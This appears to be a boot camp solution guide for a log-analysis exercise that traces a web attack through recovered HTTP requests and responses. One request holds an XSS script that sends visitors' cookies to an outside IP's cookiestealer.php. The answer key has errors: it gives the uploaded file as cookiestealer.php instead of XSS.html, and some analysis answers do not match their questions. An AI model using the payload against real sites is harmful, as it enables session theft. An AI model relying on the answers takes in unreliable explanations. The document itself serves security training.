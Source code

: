 ## Solution Guide: HTTP Requests and Responses

The goal of this activity was to combine skills in research and critical thinking to investigate the HTTP sequences of a web attack on your company's servers.

---

**Note:** While we can't be absolutely sure about what happened due to the corrupted logs, these are good guesses based on the information we have.

1. The following partial response was sent to the suspicious IP address. The request was completely lost and unrecoverable.


   **HTTP Response 1**

     ```HTTP
     HTTP/1.1 200 OK
     Date: Tue, 25 Sep 2018 21:21:20 GMT
     Server: Apache/2.2.21 (Unix mod_ssl/2.2.21 OpenSSL/1.0.0k DAV/2 PHP/5.4.3)
     WWW-Authenticate: Cookie realm="fakesite"
     Allow: OPTIONS, GET, POST, HEAD, PUT
     ```

    **Question:** What kind of request was used here that would cause an HTTP server to tell the client all of the HTTP request methods it will respond to?

    - Solution: They used the OPTIONS method here. This was the attacker's reconnaissance phase, in which they determined all available HTTP methods that can be requested to the HTTP server.

   **Analysis:** Do you think this HTTP request method can be used by an attacker to gather information about an HTTP server? Why or why not?

   - Solution: The OPTIONS method is useful for an attacker to find out what kind of request methods they can leverage while attempting to compromise an HTTP server.

2. The system admins report some corrupted HTTP traffic that occurred before the following recovered response:

   **HTTP Response 2**

     ```HTTP
     HTTP/1.1 401 Unauthorized
     WWW-Authenticate: Cookie realm="fakesite"
             form-action="/login"
             cookie-name=AUTH-COOKIE
     Content-Type: text/html

     <title>Unauthorized</title>
     <form action="/login" method=POST>
     <input type=hidden name=referer value="/fakesite/">
     <p><label>Username: <input name=user></label>
     <p><label>Password: <input name=pwd type=password></label>
     <p><button type=submit>Sign in</button>
     <p><a href="/register">Register for an account</a>
     </form>
     ```

    **Questions:** 
      - What status code was returned in this response?

        - Solution: 401.

      - According to the response body, what kind of method was used to generate this HTTP response?

        - Solution: While we don't see the request, we can tell the attacker attempted to log into the login portal with a POST request.

     - What sort of information was input to this HTTP request?

         - Solution: The response body shows a username and password being entered into the webpage. The response status code 401 error indicates an invalid authorization attempt.

    **Analysis:** Based on the information gathered from the status code and response body, what did the attacker try to do? Were they successful? 

    - Solution:  While we can't see the request, we can tell the attacker attempted to log into the login portal with a POST request. The response body shows a username and password being entered into the webpage while the the response error status code 401 indicates an invalid authorization attempt.

3. The following HTTP request and response were also recovered:

   **HTTP Request 1**

     ```HTTP
     PUT /XSS.html HTTP/1.1
     User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
     Host: www.fakesite.com/blog

     <script type="text/javascript">
     document.location='http://133.7.13.37/cookiestealer.php?c='+document.cookie;
     </script>
     ```

   **HTTP Response 3**

     ```HTTP
     HTTP/1.1 201 Created
     Date: Mon, 05 May 2014 12:28:53 GMT
     Server: Apache/2.2.14 (Win32)
     Content-type: text/html
     Content-length: 30
     Connection: Closed
     ```

   **Questions:** 
      - What type of method was used in the request?
         - Solution: The attacker used the PUT method.

      - What file name was uploaded to the site, according to the request body?
        - Solution: `cookiestealer.php`.

   **Analysis:** 
      - Based on the request method and request body, what do you think happened here? 
      
        **Hint:** Google the term "XSS" if you need help.

        - Solution: The attacker could not inject XSS code without uploading a file with it.
    
      - How did the server respond?

        - Solution: The attacker used the PUT method to upload a cross-site script to steal the cookies of users and send the cookies to their own server.

4. The next partial request and header was received by your HTTP server. The data after this log was completely lost:

   **HTTP Request 4**

     ```HTTP
     GET https://www.fakesite.com/admin HTTP/1.1
     Cookie: $Version="1"; AUTH-COOKIE="sdf354s5c1s8e1s"; $Path="/admin"
     ```

   **Question:** Look back at the previous response (HTTP Response 3). What does the header indicate in this GET request?
    
    - Solution: Based on HTTP Response 3,  the attacker was able to obtain a victims cookie and use it in a subsequent request.

    **Analysis:** Is there anything interesting about the URL requested?
    
    - Solution: Looking at HTTP Request 4, it's clear that the attacker stole a cookie and was able to log into the admin portal using a GET request with stolen cookies set in the header.

--- 
&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.

